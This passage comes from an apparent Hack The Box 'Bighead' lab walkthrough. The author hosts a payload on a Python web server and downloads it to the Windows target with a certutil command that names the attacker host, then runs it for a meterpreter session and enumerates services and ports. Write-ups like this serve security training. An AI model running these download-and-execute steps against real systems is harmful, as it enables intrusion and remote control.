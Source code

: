 ![](/images/hackthebox/bighead/91.png)
#### I ran a python simple http server on port 80 : `python -m SimpleHTTPServer 80` to host the payload. Then I went to `C:\Users\Nelson\AppData\Local\Temp` and downloaded the payload with `certutil` :
`certutil -urlcache -split -f http://10.10.xx.xx/m.exe m.exe`
![](/images/hackthebox/bighead/92.png)
#### Then I executed it and got a `meterpreter` session :
![](/images/hackthebox/bighead/93.png)
<br>
<br>
![](/images/hackthebox/bighead/94.png)
#### From `meterpreter` I wanted to look at the services so I did `ps`, I looked through them and found an interesting service called `BvSshServer.exe`
![](/images/hackthebox/bighead/95.png)
#### I wanted to know the listening port of that ssh server, so I did `netstat`. It was listening on port 2020 :